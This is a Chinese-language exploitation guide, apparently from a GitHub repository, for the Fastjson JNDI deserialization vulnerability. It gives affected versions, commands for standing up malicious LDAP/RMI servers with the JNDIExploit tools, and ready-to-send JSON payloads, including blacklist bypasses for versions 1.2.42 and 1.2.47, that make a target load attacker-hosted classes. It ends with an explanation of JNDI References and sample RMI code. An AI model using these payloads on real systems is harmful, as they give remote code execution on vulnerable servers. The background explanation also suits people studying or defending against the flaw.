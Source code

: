 # FastJson反序列化漏洞利用

## 利用条件：

- Fastjson < 1.2.25
- 基于ldap的利用方式，适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。
- 基于rmi的利用方式，适用jdk版本：JDK 6u132，JDK 7u131，JDK 8u121之前。
- （实战首选ldap，支持的jdk版本较多）
- 1.2.24< Fastjson <1.2.48 版本后增加了反序列化白名单，可以利用特殊构造的json字符串绕过白名单检测
- < 1.2.47基于黑名单绕过，autoTypeSupport属性为true才能使用，在1.2.25版本之后autoTypeSupport默认为false

## 利用方法：

### 步骤一：测试是否可能存在fastjson反序列化漏洞

使用json格式参数的POST请求，查看请求是否报错和返回结果。

### 步骤二：架设恶意类的 ldap 服务
工具：[JNDIExploit-1.4-SNAPSHOT.jar](./file/JNDIExploit.v1.4.zip)
地址：https://github.com/WhiteHSBG/JNDIExploit
```bash
java -jar -jar JNDIExploit.jar -i VPS地址
```
工具：[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](./file/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) 
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "执行命令" -A VPS地址 
```

### 步骤三：修改请求包数据，发送poc

```bash
{
	"b":{
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://your-vps-ip:1389/JNDIObject",
		"autoCommit":true
	}
}
```
> ⚠️poc中访问的接口和恶意类的ldap服务监听端口一致

### 1.2.42版本绕过
fastjson在1.2.42版本新增了校验机制。如果输入类名的开头和结尾是L和;就将头尾去掉再进行黑名单校验。绕过方法：在类名外部嵌套两层L和;。
原类名：```com.sun.rowset.JdbcRowSetImpl```

绕过：```LLcom.sun.rowset.JdbcRowSetImpl;;```

EXP：

```bash
{           
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://ip:1389/JNDIObject",
	"autoCommit":true
}
```
> autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

### 1.2.47版本绕过
在1.2.47版本及以下的情况下，loadClass中默认cache为true，首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.jdbcRowSetlmpl这个类，即可绕过黑名单

```bash
{
	"a": { 
		"@type":"java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b": { 
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://ip:1389/JNDIObject",
		"autoCommit":true
	}
}
```

## 漏洞原理：

1. 首先开启HTTP服务器，并将我们的恶意类放在目录下
2. 开启恶意RMI服务器
3. 攻击者控制url参数为上一步开启的恶意RMI服务器地址
4. 恶意RMI服务器返回ReferenceWrapper类
5. 目标（JNDI_Client）在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference类，然后远程加载并实例化我们的Factory类（即远程加载我们HTTP服务器上的恶意类），在实例化时触发静态代码片段中的恶意代码

## 漏洞分析：
### JNDI
JNDI是 Java 命名与目录接口（Java Naming and Directory Interface），在J2EE规范中是重要的规范之一。JNDI提供统一的客户端API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI再局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。

JNDi是应用程序设计的Api，JNDI可以根据名字动态加载数据，支持的服务主要有以下几种：
```bash
DNS、LDAP、CORBA对象服务、RMI
```
### 利用JNDI References进行注入
对于这个知识点，我们需要先了解RMI的作用。

首先RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。RMI服务端可以直接绑定远程调用的对象以外，还可通过References类来绑定一个外部的远程对象，当RMI绑定了References之后，首先会利用Referenceable.getReference()获取绑定对象的引用，并在目录中保存，当客户端使用lookup获取对应名字时，会返回ReferenceWrapper类的代理文件，然后会调用getReference()获取Reference类，最终通过factory类将Reference转换为具体的对象实例。

服务端
```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
	public static void main(String args[]) throws Exception {
		Registry registry = LocateRegistry.createRegistry(1099);
		// Reference需要传入三个参数(className,factory,factoryLocation)
		// 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
		Reference refObj = new Reference("Evil", "EvilObject", "http://127.0.0.1:8000/");
		// ReferenceWrapper包裹Reference类，使其能够通过RMI进行远程访问
		ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
		registry.bind("refObj", refObjWrapper);
	}
}
```

客户端
```bash
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDIClient {
	public static void main(String[] args) throws Exception{
		try {
			Context ctx = new InitialContext();
			ctx.lookup("rmi://localhost:8000/refObj");
		}catch (NamingException e) {
			e.printStackTrace();
		}
	}
}
```
如果我们可以控制JNDI客户端中传入的url，就可以起一个恶意的RMI，让JNDI来加载我们的恶意类从而进行命令执行。

我们来看一下References，References类有两个属性，className和codebase url，className就是远程引用的类名，codebase决定了我们远程类的位置，当本地classpath中没有找到对应的类的时候，就会去请求codebase地址下的类（codebase支持http协议），此时如果我们将codebase地址下的类换成我们的恶意类，就能让客户端执行。

ps：在java版本大于1.8u191之后版本存在trustCodebaseURL的限制，只能信任已有的codebase地址，不再能够从指定codebase中下载字节码。


## 漏洞总结：

1. 反序列化常用的两种利用方式，一种是基于rmi，一种是基于ldap。
2. RMI是一种行为，指的是Java远程方法调用。
3. JNDI是一个接口，在这个接口下会有多种目录系统服务的实现，通过名称等去找到相关的对象，并把它下载到客户端中来。
4. ldap指轻量级目录服务协议。
